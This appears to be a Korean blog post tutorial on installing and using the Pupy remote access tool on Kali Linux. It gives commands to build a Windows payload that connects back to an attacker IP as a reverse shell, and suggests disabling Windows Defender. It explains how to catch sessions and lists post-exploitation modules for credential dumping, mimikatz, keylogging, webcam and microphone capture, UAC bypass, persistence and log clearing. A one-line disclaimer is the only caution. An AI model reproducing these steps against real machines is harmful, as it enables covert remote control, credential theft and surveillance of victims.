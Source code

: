 ```yaml
---
layout: post
title: ! "[Kali] PUPY 설치 및 사용법"
categories: [Kali]
excerpt: " "
comments: true
share: true
tags:
  - Kali Linux
  - Pupy
  - install
---
```


## 설치

### 환경 : Kali Linux,VMware Workstation 12 pro

참고 : https://github.com/n1nj4sec/pupy
```
git clone https://github.com/n1nj4sec/pupy.git pupy
cd pupy
git submodule init
git submodule update
pip install -r pupy/requirements.txt
wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates
```

#### PUPY 설치
 1. git clone https://github.com/n1nj4sec/pupy.git
![]({{ site.baseurl }}/assets/posts/kali/pupy_git.png)
 2. cd pupy
 3. git submodule init
![]({{ site.baseurl }}/assets/posts/kali/pupy_init.png)

 4. git submodule update
![]({{ site.baseurl }}/assets/posts/kali/pupy_update.png)

 5. pip install -r pupy/requirements.txt

★설치가 안되거나 에러가 발생하는 경우 밑에 필요하다고 뜨는 것들을 설치해보면서 에러를 해결하시면 됩니다.


## 사용법
★공격자 ip는 ifconfig로 확인하시길 바랍니다.
![]({{ site.baseurl }}/assets/posts/kali/pupy_ifconfig.png)

```
./pupygen.py -O (타겟의 운영체제) -A (타겟의 아키텍쳐) -o (파일명.확장자) connect --host  (공격자 IP) --transport ssl 

./pupygen.py  -O windows -A x64 -o MitNy.exe  connect --host 000.000.000.000 --transport ssl
```

![]({{ site.baseurl }}/assets/posts/kali/pupy_gen.png)
저는 파일을 예전에 만들어놨고, VM이 아닌 제 컴퓨터에 직접 파일을 설치해놨었기 때문에 그것을 사용하겠습니다.(mitny.exe)
자신의 컴퓨터에 직접 테스트를 해보고싶으시면 Windows defender를 끄고 해보세요.
(절대 악의적인 목적으로 타인의 컴퓨터에 사용하지 마세요. 법적인 책임은 본인에게 있습니다.)

![]({{ site.baseurl }}/assets/posts/kali/pupy_mitny.png)


- pupysh.py 파일 실행

- 패스워드 입력 후 타겟 컴퓨터에서 위에서 만든 파일 실행 시 세션이 잡힘.

- sessions -i 1 -> Session 1이 타겟이 됨


![]({{ site.baseurl }}/assets/posts/kali/pupy_start.png)

`- info 입력시 타겟의 정보가 출력됨`

![]({{ site.baseurl }}/assets/posts/kali/pupy_info.png)

★ list_modules를 치면 사용 가능한 명령어 리스트를 볼 수 있습니다.

```
admin/beroot                 Windows Privilege Escalation
admin/clear_logs             Clear Event Logs
admin/dns                    Retrieve Domain Name From Ip And Vice Versa
admin/drives                 List Valid Drives In The System
admin/getdomain              Get Primary Domain Controller
admin/igd                    Upnp Igd Client
admin/interactive_shell      Open An Interactive Command Shell With A Nice Tty
admin/pexec                  Execute Shell Commands Non-Interactively On A Remote System In Background Using Popen
admin/psexec                 Launch Remote Commands Using Smbexec Or Wmiexec
admin/psh                    Load/Execute Powershell Scripts
admin/pyexec                 Execute Python Code On A Remote System
admin/pyshell                Open An Interactive Python Shell On The Remote Client
admin/rdesktop               Start A Remote Desktop Session Using A Browser Websocket Client
admin/rdp                    Enable / Disable Rdp Connection Or Check For Valid Credentials On A Remote Host
admin/scapy_shell            Open An Interactive Python Shell On The Remote Client
admin/shares                 List Local And Remote Shared Folder And Permission
admin/shell_exec             Execute Shell Commands On A Remote System
admin/smb                    Copy Files Via Smb Protocol
admin/smbspider              Walk Through A Smb Directory And Recursively Search A String Into Files
admin/ssh                    Ssh Client
admin/zip                    Zip / Unzip File Or Directory
creds/changeme               Default Credential Scanner
creds/creddump               Download The Hives From A Remote Windows System And Dump Creds
creds/lazagne                Retrieve Passwords Stored On The Target
creds/loot_memory            Crawl Processes Memory And Look For Cleartext Credentials
creds/memstrings             Dump Printable Strings From Process Memory For Futher Analysis
exploit/exploit_suggester    Exploit Suggester
exploit/impersonate          List/Impersonate Process Tokens
exploit/mimikatz             Execute Mimikatz From Memory
exploit/shellcode_exec       Executes The Supplied Shellcode On A Client
gather/check_vm              Check If Running On Virtual Machine
gather/cloudinfo             Retrieve Ec2/Digitalocean Metadata
gather/get_hwuuid            Try To Get Uuid (Dmi) Or Machine-Id (Dbus/Linux)
gather/get_info              Get Some Informations About One Or Multiple Clients
gather/keylogger             A Keylogger To Monitor All Keyboards Interaction Including The Clipboard :-)
gather/mouselogger           Log Mouse Clicks And Take Screenshots Of Areas Around It
gather/netcreds              Sniffs Cleartext Passwords From Interface
gather/outlook               Interact With Outlook Session Of The Targeted User
gather/powerview             Execute Powerview Commands
gather/pywerview             Rewriting Of Some Powerview'S Functionalities In Python
gather/record_mic            Record Sound With The Microphone !
gather/screenshot            Take A Screenshot :)
gather/search                Walk Through A Directory And Recursively Search A String Into Files
gather/users                 Get Interactive Users
gather/webcamsnap            Take A Webcam Snap :)
general/process_kill         Kill A Process
manage/download              Download A File/Directory From A Remote System
manage/duplicate             Duplicate The Current Pupy Payload By Executing It From Memory
manage/getprivs              Manage Current Process Privileges
manage/lock_screen           Lock The Session
manage/memory_exec           Execute A Executable From Memory
manage/migrate               Migrate Pupy Into Another Process Using Reflective Dll Injection
manage/persistence           Enables Persistence Via Registry Keys
manage/upload                Upload A File/Directory To A Remote System
network/forward              Local/Remote Port Forwarding And Socks Proxy
network/nbnsspoof            Sniff For Nbns Requests And Spoof Nbns Responses
network/port_scan            Run A Tcp Port Scan
network/portfwd              Perform Local/Remote Port Forwarding Using Openssh -L/-R Syntax
network/socks5proxy          Start A Socks5 Proxy Going Through A Client
network/tcpdump              Module To Reproduce Some Of The Classic Tcpdump Tool Functions
privesc/bypassuac            Try To Bypass Uac
privesc/getsystem            Try To Get Nt Authority System Privileges
privesc/inveigh              Execute Inveigh Commands
troll/msgbox                 Pop Up A Custom Message Box
```
